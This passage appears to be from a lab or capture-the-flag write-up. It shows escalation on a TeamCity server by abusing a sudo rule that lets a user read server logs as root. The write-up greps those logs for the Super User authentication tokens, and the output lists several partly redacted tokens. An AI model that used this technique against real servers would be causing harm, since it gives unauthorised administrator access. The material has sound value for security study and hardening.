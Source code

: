 ```
   compliance features.

   https://ubuntu.com/aws/pro

Expanded Security Maintenance for Applications is not enabled.

33 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

7 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sun Jul 23 19:41:09 2023 from 78.86.133.113
teamcity@ip-10-1-20-225:~$ 

```

Seems like we are allowed to read log files in the TeamCity logs folder as root
```
teamcity@ip-10-1-20-225:~$ sudo -l
[sudo] password for teamcity: 
Matching Defaults entries for teamcity on ip-10-1-20-225:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User teamcity may run the following commands on ip-10-1-20-225:
    (root) /usr/bin/cat /opt/JetBrains/TeamCity/logs/*.log
```

TeamCity has a Super User login mode that allows accessing the server UI with System Administrator permissions. This is useful if the administrator forgot their credentials or needs to fix authentication-related settings. The authentication token is automatically generated on every server start and is printed in the file `teamcity-server.log`. The Super User login is enabled by default. The TeamCity [documentation](https://www.jetbrains.com/help/teamcity/security-notes.html#Credentials) calls this out and recommends disabling it to improve the security of the instance.
```
teamcity@ip-10-1-20-225:~$ sudo /usr/bin/cat /opt/JetBrains/TeamCity/logs/teamcity-server.log | grep -i "authentication token"
[2023-07-22 19:38:14,704]   INFO -   jetbrains.buildServer.SERVER - Super user authentication token: 91<REDACTED>876 (use empty username with the token as the password to access the server)
[2023-07-22 19:51:03,700]   INFO -   jetbrains.buildServer.SERVER - Super user authentication token: 44<REDACTED>761 (use empty username with the token as the password to access the server)
[2023-07-22 20:41:12,025]   INFO -   jetbrains.buildServer.SERVER - Super user authentication token: 67<REDACTED>198 (use empty username with the token as the password to access the server)
[2023-07-22 21:36:33,078]   INFO -   jetbrains.buildServer.SERVER - Super user authentication token: 21<REDACTED>204 (use empty username with the token as the password to access the server)
[2023-07-23 18:56:47,362]   INFO -  jetbrains.buildServer.STARTUP - Administrator can login from web UI using super user authentication token (better use a private browser window)
[2023-07-23 18:56:47,362]   INFO -   jetbrains.buildServer.SERVER - Super user authentication token: 85<REDACTED>902 (use empty username with the token as the password to access the server)
[2023-07-23 19:09:37,640]   INFO -  jetbrains.buildServer.STARTUP - Administrator can login from web UI using super user authentication token (better use a private browser window)
[2023-07-23 19:09:37,640]   INFO -   jetbrains.buildServer.SERVER - Super user authentication token: 44<REDACTED>970 (use empty username with the token as the password to access the server)
[2023-07-23 19:30:34,480]   INFO -   jetbrains.buildServer.SERVER - Super user authentication token: 86<REDACTED>655 (use empty username with the token as the password to access the server)
[2023-07-24 22:47:25,233]   INFO -   jetbrains.buildServer.SERVER - Super user authentication token: 42<REDACTED>584 (use empty username with the token as the password to access the server)
[2025-09-24 17:02:50,182]   INFO -   jetbrains.buildServer.SERVER - Super user authentication token: 67<REDACTED>805 (use empty username with the token as the password to access the server)
```